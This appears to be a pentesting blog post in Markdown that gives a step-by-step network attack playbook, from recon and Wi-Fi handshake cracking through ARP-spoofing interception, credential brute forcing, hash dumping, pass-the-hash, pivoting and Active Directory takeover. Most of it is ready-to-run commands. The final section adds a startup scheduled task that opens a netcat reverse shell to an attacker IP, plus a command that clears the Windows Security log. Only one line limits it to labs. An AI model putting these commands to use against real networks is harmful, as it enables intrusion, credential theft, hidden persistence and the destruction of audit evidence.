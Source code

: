 ```yaml
---
title: "Real Network Hacking: Step-by-Step Attack Flow"
description: >-
  This guide walks through the full process of hacking a network — from recon to gaining domain control. Internal or wireless — here's how it's done.
author:
name:
date: 2025-02-12 13:00:00 +0000
categories: [Pentesting]
tags: [network, hacking, internal, wifi, mitm, lateral]
---
```


> “Hackers don’t just scan — they map, infiltrate, and move silently across layers.”
{: .prompt-info }
This post shows how real hackers compromise networks. Internal corp LANs, WiFi, or exposed edge — it's all about control.

---

## 1. Network Reconnaissance

> **Rule #1**: Stay passive until you know what you're touching.

### Passive Recon
- Wireshark (capture broadcast traffic, ARP requests)
- Netdiscover / ARP-scan to enumerate local hosts

```bash
sudo arp-scan -l
sudo netdiscover -r 192.168.1.0/24
```

### Active Scanning
```bash
nmap -sS -T4 -p- <target-subnet>
nmap -sV -sC -p 21,22,80,443,139,445 <IP>
```

---

## 2. Wi-Fi Network Attacks

### Deauth + Capture Handshake
```bash
airmon-ng start wlan0
airodump-ng wlan0mon
aireplay-ng -0 5 -a <BSSID> -c <ClientMAC> wlan0mon
```

### Crack with rockyou.txt
```bash
aircrack-ng capture.cap -w rockyou.txt
```

> Or target WPS with `bully`, `reaver`, or WPA downgrade attacks.
{: .prompt-tip }

---

## 3. Network Sniffing & MITM

### ARP Spoofing (mitmproxy)
```bash
arpspoof -i eth0 -t <victim-ip> <gateway-ip>
```

Then:
```bash
mitmproxy -i eth0 -p 8080
```

Can intercept:
- Unencrypted creds
- JWTs, cookies
- Hidden endpoints

> **Only use on legal labs or test setups.** This is *extremely intrusive*.
{: .prompt-warning }

---

## 4. Exploit Network Services

### Open SMB
```bash
smbclient -L //<IP> -N
```

Try null session:
```bash
smbmap -H <IP>
enum4linux -a <IP>
```

### RDP / WinRM
```bash
crackmapexec rdp <IP> -u users.txt -p rockyou.txt
evil-winrm -i <IP> -u admin -p password
```

### Exploit Open FTP / Redis / SNMP
- Anonymous FTP upload shell
- SNMP enum with `snmpwalk`
- Redis `CONFIG SET` → RCE

---

## 5. Lateral Movement

> *"Once you're in — the goal is **domain admin**. Pivoting begins."*

### Use Compromised Creds
```bash
crackmapexec smb 10.10.10.0/24 -u jusot99 -p password123
```

### Dump Hashes
```bash
secretsdump.py jusot99@<IP>
```

Use hashes:
```bash
psexec.py -hashes <LM>:<NT> administrator@<IP>
```

---

## 6. Pivoting & Tunneling

### Use Chisel
```bash
# Victim
./chisel client <attacker>:8000 R:3389:127.0.0.1:3389

# Attacker
./chisel server -p 8000 --reverse
```

### SSH Pivot
```bash
ssh -L 1080:target:22 user@jumpbox
```

Chain with proxychains:
```bash
proxychains nmap -sT 192.168.50.0/24
```

---

## 7. Domain Takeover (AD Attack Path)

Use:
- `bloodhound` + `SharpHound` to map trust
- `Rubeus` to harvest TGTs/AS-REPs
- `kerbrute`, `impacket` for relays + coercion
- Abuse delegation / GPP / password reuse

> LAPS, printers, DNSAdmin, GPP, DCSync — all lead to Domain Admin when misconfigured.
{: .prompt-tip }
---

## 8. Final Extraction & Persistence

- Setup reverse tunnel backdoor
- Drop scheduled tasks or backdoored services
- Exfil via DNS, HTTPS, or FTP
- Clean logs, drop custom creds

```bash
wevtutil cl Security
schtasks /create /tn "Updater" /tr "nc.exe -e cmd.exe <IP> 4444" /sc onstart
```

---

## Tools You Need

| Tool           | Purpose                        |
|----------------|--------------------------------|
| `netdiscover`  | Passive network mapping        |
| `aircrack-ng`  | Wireless attacks               |
| `responder`    | LLMNR/NBT-NS poisoning         |
| `mitmproxy`    | Intercept traffic              |
| `crackmapexec` | Network exploitation & movement|
| `Impacket`     | SMB, RDP, WMI, Kerberos attacks|
| `BloodHound`   | Active Directory graph attacks |

---

## Final Advice

> **“A network isn’t a structure. It’s a trust graph. Hack the trust.”**

- Exploit trust, not just services
- Map before attacking
- Lateral movement wins more than brute exploits
